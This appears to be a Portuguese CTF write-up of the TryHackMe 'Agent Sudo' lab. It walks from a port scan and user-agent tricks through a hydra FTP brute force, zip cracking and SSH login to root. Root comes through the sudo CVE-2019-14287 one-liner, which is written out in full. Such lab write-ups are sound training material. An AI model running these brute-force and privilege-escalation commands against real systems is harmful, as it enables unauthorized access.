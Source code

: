 # Sala Agent-sudo do TryHackMe



# Description

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.


# Requisitos para invasão
- [x] BurpSuite


# Realizando o scan no alvo encontramos 3 portas abertas 

![vuln2.jpg](img/scan.png)


```
nmap 10.10.189.69 

```

## Tela inicial onde temos a dica do user-agent
![vuln2.jpg](img/telainicial.png)

## Depois de alterar o User-agent para R, onde percebi que tem uma saída diferente, fiz um bruteforce com o intruder do burp para encontrar outros usuários onde encontrei o usuário C

![vuln2.jpg](img/burp.jpeg)


## Ao ser redirecionado alterando o user-agent, descobrimos o nome verdadeiro do usuário, e com isso podemos realizar um bruteforce no ftp tanto para o usuário chris tanto para o C
![vuln2.jpg](img/redirecionamento.png)

## Descobrimos a senha do alvo
![vuln2.jpg](img/hydra_bruteforce.png)

```
hydra -L possiveis_login -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt ftp://10.10.189.69
```

~só consegui até aqui sem  o writeup ~


## Extrair o zip da imagem
![vuln2.jpg](img/binwalk.png)

## Quebrando a senha do zip
![vuln2.jpg](img/quebrandozip.png)


## Extraindo arquivo
![vuln2.jpg](img/dezip_com_a_senha_alien.png)

## Senha em base64 do outro arquivo
![vuln2.jpg](img/base64.png)

## Com isso conseguimos achar a ultima messagem que é a senha do ssh do alvo
![vuln2.jpg](img/mensagem_final.png)


## Dentro do ssh encontrei a imagem de um alien
![vuln2.jpg](img/baixando_imagem_do_aliem.png)

## Procurei imagem no google
![vuln2.jpg](img/investigar_foto.png)

## Encontrei o caso na foxnews
![vuln2.jpg](img/incidente.png)


## root no ssh
![vuln2.jpg](img/root.png)

CVE:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287

Comando root
```
sudo -u \#$((0xffffffff)) /bin/bash
```